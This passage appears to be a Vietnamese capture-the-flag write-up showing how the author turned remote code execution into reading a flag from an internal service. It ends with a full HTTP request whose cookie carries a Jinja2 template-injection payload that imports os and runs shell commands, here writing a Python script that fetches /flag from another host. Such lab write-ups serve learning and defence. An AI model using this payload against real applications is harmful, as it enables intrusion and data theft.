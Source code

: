 ![image-20230524110536686](./assets/image-20230524110536686.png)

Do mình đã không đọc kĩ nên đã bỏ sót curl not found :))

![image-20230524110606707](./assets/image-20230524110606707.png)

Đến RCE rồi nên mình cũng thử sử dụng chạy script python sử dụng các thư viện để send request. Mình test trên local và thấy thư viện request không tồn tại

![image-20230524111002655](./assets/image-20230524111002655.png)

Mình search các cách khác thì có thấy sử dụng [`Python HTTP Client`](https://www.digitalocean.com/community/tutorials/python-http-client-request-get-post#python-http-client) thì vẫn ok 

![image-20230524111158671](./assets/image-20230524111158671.png)

Tạo file script.py

```http
GET /?service=adminpage&a=__class__&b=from_envvar&c=__globals__&d=__builtins__&e=__getitem__&f=__import__&cmd=echo+'from%20http.client%20import%20*%0Aconn%20=%20HTTPConnection(%22rflagpage%22,80)%0Aconn.request(%22GET%22,%22/flag%22)%0Aprint(conn.getresponse().read())'>script.py HTTP/1.1
Host: localhost:5005
Cookie: user={% set os = config|attr(request.args.a)|attr(request.args.b)|attr(request.args.c)|attr(request.args.e)(request.args.d)|attr(request.args.e)(request.args.f)("os") %} {{os.popen(request.args.cmd).read()}}

```
